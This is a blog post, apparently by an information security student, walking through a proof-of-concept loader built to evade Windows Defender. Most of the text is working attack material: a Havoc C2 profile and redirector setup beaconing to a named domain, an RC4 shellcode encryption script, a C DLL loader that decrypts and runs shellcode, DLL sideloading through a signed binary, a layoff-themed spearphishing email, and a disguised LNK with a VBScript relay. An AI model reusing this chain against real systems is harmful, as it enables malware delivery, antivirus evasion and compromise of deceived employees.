

> **GitHub:** [cyb3rhurr1c4n3/phantom-loader](https://github.com/cyb3rhurr1c4n3/phantom-loader/)  
> **Stack:** `C, Python, VBScript, Havoc C2, Nginx`  
> **Target:** Windows 11 + Windows Defender (Real-time Protection ✓, Cloud-delivered Protection ✓, Automatic Sample Submission ✗)

---

## What is this blog about?

This post documents how I built **Phantom Loader** - a proof-of-concept Initial Access loader that bypasses **_Windows Defender Antivirus_** in 2026. I'll walk through the full process: picking a C2 framework, setting up infrastructure, writing a shellcode loader in C, figuring out _DLL Sideloading_ through a lot of trial and error, and wrapping it all in a delivery mechanism that a real user might actually fall for.

I'm a third-year Information Security student with a focus on Offensive Security and Red Teaming. I'm not a professional red teamer - I'm someone who wanted to understand how this stuff actually works by building it from scratch. So this isn't going to be an authoritative _here's how experts do it_ writeup. It's more of an honest account of the process, including the parts that went wrong.

If you're just here for the code, the full source is on [GitHub](https://github.com/cyb3rhurr1c4n3/phantom-loader/). If you want to understand the reasoning behind each decision - and the mistakes along the way - keep reading.

---

## Why I built this

Honestly, my reason is pretty simple - it started as a graded assignment for my _Network Attack_ course at university. But I figured if I was going to spend weeks on something, I might as well make it worth putting on a CV. So instead of just getting it done, I tried to build something that actually looks like a real attack chain: full C2 infrastructure, a custom shellcode loader written in C, a believable delivery mechanism, and most importantly - something that actually **bypasses Windows Defender Antivirus in its current state**.

Everything was done in an isolated lab environment on VMs I own. All techniques here are for educational purposes only.

---

## The Attack Chain

Before diving in, here's the full picture of what I ended up building:

```
Victim receives Spearphishing email containing a download link

                            ↓

Downloads password-protected ZIP from https://static-cdn-edge.org/files/layoff-list.zip
(Password encryption blinds Network-level Inspection / Web Proxies)

                            ↓

Victim extracts archive. The resulting directory structure:
  📁 layoff-list/
   ├── 📄 layoff-list.pdf.lnk            ← Visible (Disguised with PDF icon)
   └── 📁 microsoft-update-cache/        ← Hidden attribute set
        ├── ⚙️ bcrypt.dll                ← Malicious payload
        ├── 📄 layoff-list.pdf           ← Decoy document
        ├── 📜 layoff-list.vbs           ← Execution relay script
        └── ⚙️ OneDrive.Sync.Service.exe ← Trusted Binary

                            ↓

        Victim double-clicks 'layoff-list.pdf.lnk'

                            ↓

C:\Windows\System32\wscript.exe //B //Nologo "microsoft-update-cache\layoff-list.vbs"

                            ↓

layoff-list.vbs acts as an invisible relay (Eliminates cmd.exe, prevents console flash)

                            ↓
        (Background Execution)               (Foreground Execution)
┌─────────────────────────────────────┐   ┌─────────────────────────┐
│ OneDrive.Sync.Service.exe           │   │ layoff-list.pdf         │
│ (Legitimate Microsoft binary)       │   │ (Decoy document opens   │
│ Runs silently in background         │   │  in default PDF reader) │
│               ↓                     │   └─────────────────────────┘
│ DLL Search Order Hijacking          │
│ Loads local 'bcrypt.dll'            │
│               ↓                     │
│ DllMain → DisableThreadLibraryCalls │
│ → CreateThread(run_shellcode)       │
│               ↓                     │
│ Sleep(5000)                         │
│ VirtualAlloc(RW)                    │
│ CopyMemory(encrypted_shellcode)     │
│ SecureZeroMemory(original_buffer)   │
│ Sleep(5000)                         │
│ rc4_decrypt()                       │
│ VirtualProtect(RW → RX)             │
│ CreateThread → Havoc Demon Implant  │
│               ↓                     │
│ C2 Beaconing (HTTPS / Port 443)     │
│ -> static-cdn-edge.org              │
└─────────────────────────────────────┘
```

---

## Step 1 - Picking a C2 Framework

There are quite a few C2 frameworks out there - Cobalt Strike, Sliver, Havoc, Mythic, Empire... I didn't just pick one randomly. I had three requirements:

- **Open-source** - I wanted to actually read the implant source code, not treat it as a black box
- **C/ASM implant** - It's the language I'm most comfortable with, and the easiest to reason about when doing evasion research
- **Proper custom traffic support** - There's no point spending time evading static and dynamic analysis if the C2's network traffic gets flagged at the network layer

After looking around, I went with **Havoc**. Here's why each criterion mattered to the overall project. Its Demon implant is written in C/ASM, supports Ekko sleep obfuscation, uses NT syscalls directly, and has a flexible Malleable profile system. Checked all three boxes.

With the C2 chosen, the next step was getting the infrastructure up before doing anything else - because the loader and the shellcode both depend on it.

---

## Step 2 - Building the C2 Infrastructure

The first thing I set up was the backend. The naive approach - exposing the Havoc Teamserver directly to the internet - is a _bad idea_. Any analyst can pivot from beacon traffic back to the server IP and shut down the whole operation. So I set up a proper redirector in front of it:



The Teamserver is bound to `127.0.0.1` only - nothing exposed externally. Nginx handles everything. Any request that doesn't match the C2 profile gets redirected to `/`, which mimics a benign site with only a `Service Unavailable` sentence on it, so someone actively probing the VPS just sees a normal web server.

For the domain, I bought `static-cdn-edge.org` on _Namecheap_ for $7.18 (~200k VND). The goal was to make the VPS look like a **CDN edge server** so beacon traffic blends in with normal corporate web traffic. I added a _Let's Encrypt_ TLS certificate and customized the Havoc profile to make responses look like CDN telemetry, here is the Havoc Profile I use:

```
Teamserver {
    Host = "0.0.0.0"
    Port = 21405

    Build {
        Compiler64 = "data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
        Compiler86 = "data/i686-w64-mingw32-cross/bin/i686-w64-mingw32-gcc"
        Nasm = "/usr/bin/nasm"
    }
}

Operators {
        user "operator" {
                Password = "operator"
        }
}

Listeners {
    Http {
        Name         = "https-lab"
        Hosts        = ["static-cdn-edge.org"]
        HostBind     = "0.0.0.0"
        PortBind     = 8443
        PortConn     = 443
        HostRotation = "round-robin"
        Secure       = true
        UserAgent    = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36"

        Uris = [
            "/updates",
            "/static/js/main.js",
            "/api/telemetry",
            "/cdn/assets"
        ]

        Headers = [
            "Content-type: text/javascript",
            "Cache-Control: no-cache",
        ]

        Response {
            Headers = [
                "Content-type: text/javascript",
                "Server: cloudflare",
                "Cache-Control: no-cache, no-store",
            ]
        }
    }
}

Demon {
    Sleep  = 5
    Jitter = 30

    TrustXForwardedFor = true

    Injection {
        Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
        Spawn32 = "C:\\Windows\\System32\\Werfault.exe"
    }

    Binary {
        ReplaceStrings-x64 = {
            "demon.x64.dll": "",
            "This program cannot be run in DOS mode.": "",
        }

        ReplaceStrings-x86 = {
            "demon.x86.dll": "",
            "This program cannot be run in DOS mode.": "",
        }
    }
}
```

Nginx also does port multiplexing on 443 - `/files/*` serves the payload ZIP, everything else that matches the profile gets proxied to the Teamserver. One port, two roles, minimal footprint.

---

## Step 3 - Shellcode & Static Evasion

With the infrastructure ready, the next challenge was the shellcode itself - specifically, getting it onto disk without Defender immediately deleting it.

I exported the shellcode from Havoc (x64, with Ekko sleep obfuscation enabled) and tried embedding it directly in a loader **EXE**. That got flagged immediately by static analysis - Defender has had Havoc shellcode signatures for a while.

**Attempt 1 - Single-byte XOR:** Still detected. One-byte XOR is trivially reversible; an AV can just brute-force all 256 possible keys and scan the result. Not surprising in hindsight.

**Attempt 2 - RC4 with a longer key:** This worked. With a multi-character key, RC4 produces a keystream complex enough to destroy the original signature. The shellcode is encrypted at build time using a Python script and embedded as ciphertext - the plaintext never exists on disk.

```python
# rc4_encrypt.py - run this at build time, paste the output into your loader
import sys

# RC4 Key
KEY = b"<your-custom-key>"

def rc4_encrypt(data, key):
    S = list(range(256))
    j = 0
    out = bytearray()

    # Key-scheduling algorithm (KSA)
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    # Pseudo-random generation algorithm (PRGA)
    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(byte ^ S[(S[i] + S[j]) % 256])

    return out

def main(file_path):
    try:
        with open(file_path, "rb") as f:
            raw_data = f.read()

        encrypted_data = rc4_encrypt(raw_data, KEY)

        out_str = "unsigned char shellcode[] = {\n    "
        for i, byte in enumerate(encrypted_data):
            out_str += f"0x{byte:02x}, "
            if (i + 1) % 12 == 0:
                out_str += "\n    "
        out_str = out_str.rstrip(", \n ") + "\n};"

        print(f"// RC4 Key: {KEY.decode()}")
        print(out_str)

    except FileNotFoundError:
        print(f"File not found: {file_path}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 rc4_encrypt.py <payload.bin>")
    else:
        main(sys.argv[1])

```

This takes the raw `.bin` shellcode from Havoc and outputs a C array ready to paste into the loader (_see the Demo section on Github to know how to compile shellcode with Havoc_)

With static evasion sorted, I moved on to the harder part - keeping the implant alive after execution.

---

## Step 4 - DLL Sideloading & Dynamic Evasion

Bypassing static analysis wasn't enough. When I ran the EXE loader, Defender killed it after a few seconds. Which makes sense - an unsigned EXE with no digital signature doing `VirtualAlloc → VirtualProtect → CreateThread` is about as suspicious as it gets. I needed a legitimate host process to hide inside.

After some research, I came across **DLL Sideloading** - the idea is to hijack a legitimate, Microsoft-signed host process to load the malicious DLL, so the implant runs under a trusted process identity rather than as a naked, unsigned executable.

### Finding candidates with Process Monitor + dumpbin

I used two tools together to find sideloading targets:

**Process Monitor** (Sysinternals) is the main one. Set these filters and launch the target EXE:

```
Process Name  is        <exe being tested>
Path          ends with .dll
Result        is        NAME NOT FOUND
```

This shows every DLL the process tried to find but couldn't. The key thing to pay attention to: **only look at entries where the path points to the current working directory** - some entries will show the process looking directly in System32 or other fixed paths, and those aren't sideloadable. The ones we care about are the ones where Windows is checking the local folder first and coming up empty. Drop a DLL with the same name there, and Windows will load ours instead.

This approach also catches DLLs loaded dynamically via `LoadLibrary` at runtime, not just ones statically linked at compile time - which is why it's more reliable than `dumpbin /imports` alone.

**dumpbin** is a supporting tool for two specific tasks:

```
dumpbin /imports <target.exe>   # see which DLLs the EXE will try to load (static only)
dumpbin /exports <target.dll>   # see which functions we need to forward in our fake DLL
```

The `/imports` view is a quick way to get an idea of DLL candidates before running Process Monitor, but it won't show the full picture. The `/exports` view is essential for the proxying step - it tells you exactly which functions the real DLL exposes so you know what to forward.

My first target was `version.dll` since it's loaded by a huge number of executables. I found several candidates - `tcpview64.exe`, `waitfor.exe`, a few others. Got it working, and at that point I had a functional bypass against Defender. However, these EXE has GUI, which will pop a screen up when being executed. Therefore, I need to find a better host in the future.

### DLL Proxying - keeping the host process alive

One problem: if the fake DLL doesn't export the same functions as the real one, the host process crashes on load. Not subtle. The fix is **DLL Forwarding** - export all the original functions, but forward them directly to the real DLL in System32.

```c
#pragma comment(linker, "/export:BCryptOpenAlgorithmProvider=\
C:\\Windows\\System32\\bcrypt.dll.BCryptOpenAlgorithmProvider")
// ... all other exports
```

Windows resolves the forward to System32 at load time - no need to copy the original DLL anywhere.

> **A mistake I made early on:** I initially copied the real DLL into the working directory with an `_orig.dll` suffix and forwarded to that. Defender caught it immediately - a system DLL existing outside of System32 is an obvious IOC. You have to forward directly to `C:\Windows\System32\<dll>.dll`.

### The loader itself

```c
static DWORD WINAPI run_shellcode(LPVOID lpParam) {

    Sleep(5000);  // delay #1: get past the initial AV scan window

    LPVOID mem = VirtualAlloc(NULL, shellcode_size,
                              MEM_COMMIT | MEM_RESERVE,
                              PAGE_READWRITE);   // RW only - no execute yet
    if (!mem) return 1;

    CopyMemory(mem, shellcode, shellcode_size);
    SecureZeroMemory(shellcode, shellcode_size); // wipe ciphertext from .data section

    Sleep(5000);  // delay #2: before decrypt + execute

    rc4_decrypt(rc4_key, sizeof(rc4_key) - 1,
                (unsigned char*)mem, (int)shellcode_size);

    DWORD old;
    VirtualProtect(mem, shellcode_size, PAGE_EXECUTE_READ, &old); // RW → RX

    HANDLE hThread = CreateThread(NULL, 0,
        (LPTHREAD_START_ROUTINE)mem, NULL, 0, NULL);

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    VirtualFree(mem, 0, MEM_RELEASE);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID reserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        DisableThreadLibraryCalls(hModule);
        HANDLE h = CreateThread(NULL, 0, run_shellcode, NULL, 0, NULL);
        if (h) CloseHandle(h);
    }
    return TRUE;
}
```

A couple of deliberate choices here worth explaining - these aren't just random decisions, they're direct responses to specific detection vectors:

**RW → RX instead of RWX.** `PAGE_EXECUTE_READWRITE` is one of the most-watched behavioral IOCs in both AV and EDR. Allocating RW, writing the shellcode, then switching to RX means write and execute permissions are never held at the same time. No RWX, no flag.

**`SecureZeroMemory` instead of `memset`.** The compiler is allowed to optimize away `memset` if it determines the buffer won't be read afterward - a well-known issue called dead store elimination. `SecureZeroMemory` can't be optimized away. This ensures the ciphertext is actually gone from process memory before decryption runs.

However, I had to start over with a different DLL. Why? That whole story is in the next section.

---

## Step 5 - The Part Where Things Went Wrong

At this point I had a working bypass with `version.dll` loaded via `OneDrive.Sync.Service.exe` (the new host with no UI that I found). I was about to record the demo.

Then I accidentally dropped `version.dll` onto my host machine's Desktop - the one with Automatic Sample Submission **enabled**. The file got sent to Microsoft within minutes.

I didn't realize what happened until about half a day later when I came back to record, and `version.dll` was getting flagged on the victim machine. I tried recompiling, adding dummy functions, tweaking the sleep values - nothing worked. Once Microsoft has your sample, they signature it fast and push it everywhere. What a bad day for me. At that point I knew this project wasn't going to end anytime soon.

So I had to start over with a different DLL. Went back to the drawing board with `OneDrive.Sync.Service.exe` (I stuck with this host since it has no GUI and runs silently) and used Process Monitor + dumpbin to find other DLLs it loads. Tried `crypt32.dll` - loaded fine, but the implant couldn't beacon back to the Teamserver. My best guess is that `crypt32.dll` gets loaded briefly for a specific call and then unloaded before the shellcode thread gets a chance to establish the connection.

Eventually landed on **`bcrypt.dll`**. Loaded, persisted, beaconed back.

With a stable DLL finally in place, the last piece of the puzzle was **delivery** - getting the victim to trigger the whole chain **_without suspecting anything_**.

---

## Step 6 - Delivery: LNK → VBScript Relay

Even with a working DLL, I still had a problem: how do I get a victim to run `OneDrive.Sync.Service.exe`? Nobody's clicking on a random EXE. And the early version of my payload using `tcpview64.exe` even pops up a GUI window, which is a dead giveaway. That's why I switched to `OneDrive.Sync.Service.exe` in the first place - it runs completely silently with no UI.

But I still needed a believable entry point for the victim.

### The pretext - Social Engineering

I designed the delivery around an internal HR email announcing a company-wide layoff - **Phase 1 Workforce Reduction 2026**. The email comes from the "HR Department", marks the document as highly confidential, and asks the recipient to confirm by 17:00 today. Fear of losing your job is a powerful trigger - it pushes people to act immediately without stopping to think.

The payload is delivered as a password-protected ZIP via a download link, not as a direct email attachment. This sidesteps Secure Email Gateway sandboxes that aggressively scan attachments. The password (`layoff2026`) is included in the email body itself - which also reinforces the illusion that this is a legitimate, carefully secured internal document.

- Here is the actual email that I sent

```
Subject: [URGENT] Layoff List - Phase 1 Workforce Reduction 2026 - HR Department

Dear Colleagues,

In line with the company's organizational restructuring and workforce optimization plan, the Human Resources Department is releasing the **Phase 1 Layoff List for 2026**.

This document contains the list of positions and personnel affected in the first round of the reduction in force.

**Important Notice:**

- This is a **highly confidential** internal document.
- It must be viewed only by the intended recipients.
- Please **do not forward**, share, copy, or print this information under any circumstances.

The attached file is password-protected. Please download it from the following secure link:

[https://static-cdn-edge.org/files/layoff-list.zip](https://static-cdn-edge.org/files/layoff-list.zip)

**Password to extract the file (DO NOT SHARE under any circumstances):** **layoff2026**

We kindly request that you review the list and provide your confirmation or feedback **by 17:00 today**.

Should you have any questions, please contact the HR Department directly.

Thank you for your understanding and cooperation during this difficult process.

Best regards, Human Resources Department
A Random Bank Company
```

Once the victim downloads and extracts the ZIP, they see a single file: `layoff-list.pdf`. Except it's not a PDF - it's a `.lnk` file in disguise. Curios? See the Demo section on Github. How to make that? Continue to read.

### Disguising the LNK as a PDF

After researching about how to trick a user to click, I know a `.lnk` (Windows Shortcut) file with the extension `.pdf.lnk` will appears as `.pdf` to the victim because Windows hides known extensions by default. Setting the icon to the PDF icon from `msedge.exe` completes the illusion, the file `layoff-list.pdf.lnk` will appear nearly the same as a real PDF. Then I put everything else inside a hidden folder name "temp" next to the `.pdf.lnk` file. The first version of the bundle looked like this:

```
📁 layoff-list/
 ├── 📄 layoff-list.pdf.lnk      ← Only visible file (PDF icon from msedge.exe)
 └── 📁 temp/                    ← Hidden attribute set
      ├── ⚙️  OneDrive.Sync.Service.exe
      ├── ⚙️  bcrypt.dll          ← Fake DLL
      └── 📄 layoff-list.pdf      ← Decoy document
```

### First attempt - LNK targeting `cmd.exe`

- **LNK's target field:**

```
%windir%\system32\cmd.exe /c start /min "" "temp\OneDrive.Sync.Service.exe" & start "" "temp\layoff-list.pdf"
```

- **Start in:** `%CD%`
- **Run:** `Minimized`

When clicked, `cmd.exe` silently launches `OneDrive.Sync.Service.exe` in the background while opening the _real PDF_ in the foreground. The victim sees the layoff document open and assumes that's all that happened.

This worked really well - until it didn't. I thought I could finish record a good demo with this bundle. But when I'm recording, Defender flagged the `.pdf.lnk` file with `Trojan:Win32/WinLNK.HDN!MTB`. The chained `cmd.exe /c ... & start` pattern in a LNK target is apparently a well-known behavioral signature. I tried tweaking the target field in various ways but couldn't get around it.

Honestly, I still don't fully understand how Defender caught it at that point - I had **Automatic Sample Submission** disabled and hadn't exposed the file anywhere. But it did, so I kept going.

### Fix - VBScript relay

The solution was to move all execution logic out of the LNK entirely. The LNK now just calls `wscript.exe` with a VBScript file:

- **New LNK target:**

```
C:\Windows\System32\wscript.exe //B //Nologo "microsoft-update-cache\layoff-list.vbs"
```

- **`layoff-list.vbs` content:**

```vbscript
Option Explicit
Dim oShell
Set oShell = CreateObject("WScript.Shell")
' Chr(34) instead of literal quotes - avoids string-based static detection
oShell.Run Chr(34) & "microsoft-update-cache\OneDrive.Sync.Service.exe" & Chr(34), 0, False
WScript.Sleep 800
oShell.Run Chr(34) & "microsoft-update-cache\layoff-list.pdf" & Chr(34), 1, False
Set oShell = Nothing
```

`WindowStyle = 0` runs the EXE silently in the background. `WindowStyle = 1` opens the real PDF in the foreground. From the victim's perspective, they just double-clicked a PDF and it opened normally.

I also renamed the hidden folder from `temp` to `microsoft-update-cache` - not sure if the folder name was part of the issue, but changing it felt like the right call.

### Final directory structure

```
📁 layoff-list/
 ├── 📄 layoff-list.pdf.lnk         ← Only visible file (PDF icon from msedge.exe)
 └── 📁 microsoft-update-cache/     ← Hidden attribute set
      ├── ⚙️  OneDrive.Sync.Service.exe
      ├── ⚙️  bcrypt.dll
      ├── 📜 layoff-list.vbs
      └── 📄 layoff-list.pdf          ← Decoy document
```

The full bundle gets zipped with a password via 7-Zip, uploaded to the VPS file server, and linked in the phishing email. That's the complete delivery chain - and it worked, I actually bypass Windows Defender Antivirus (latest) with this (_see the demo section on Github_). I finally got a clean demo recorded and the bypass confirmed. Honestly, I slept well that night.

Althought this payload bundle is good, it's not perfect, there are always something to be improve.

## What I'd Do Differently (or Next)

A few things I learned the hard way or want to improve:

**Isolate your dev and test environments properly.** The whole `version.dll` incident happened because my dev enviroment wasn't properly set up. Never let that happen again.

**Test DLL persistence, not just loadability.** Just because `DllMain` fires doesn't mean the DLL stays loaded long enough for your shellcode to complete. `crypt32.dll` taught me that. Always verify the full chain: load → shellcode runs → beacon appears on Teamserver.

**Process Monitor > dumpbin for finding candidates.** `dumpbin /imports` only shows static imports compiled into the binary. Dynamic `LoadLibrary` calls at runtime won't appear there. Process Monitor's `NAME NOT FOUND` filter catches everything at runtime, which is what actually matters.

**Things I haven't solved yet but want to explore:**

- MotW bypass - files from a ZIP inherit `Zone.Identifier`, which bumps EDR threat score. VHD/VHDX container smuggling is the most promising direction.
- Indirect syscalls in the loader - currently still using Win32 API, which can be hooked by EDR at the `ntdll.dll` level.
- Environmental keying - derive the RC4 decryption key from target-specific artifacts instead of hardcoding it, so the shellcode is useless outside the intended environment.

---

## Closing

This project took longer than expected and went wrong more times than I'd like to admit - but that's kind of the point. Reading about evasion techniques is one thing; actually trying to implement them against a live AV and working through every failure is a completely different experience. I came out of it with a much clearer picture of how Windows Defender actually behaves, and more importantly, how defenders can catch what I built.

Full source code, build guide, and demo videos: **[github.com/cyb3rhurr1c4n3/phantom-loader](https://github.com/cyb3rhurr1c4n3/phantom-loader/)**
